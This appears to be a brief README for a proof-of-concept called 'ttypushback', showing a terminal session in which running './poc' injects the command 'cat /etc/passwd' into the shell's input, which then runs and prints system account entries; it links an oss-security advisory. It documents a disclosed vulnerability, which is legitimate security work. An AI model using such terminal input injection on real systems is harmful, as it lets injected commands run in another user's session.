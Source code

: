 # ttypushback

```
sazak@ubuntu:~$ ./poc
cat /etc/passwd
sazak@ubuntu:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
........................
```

https://www.openwall.com/lists/oss-security/2023/03/14/2
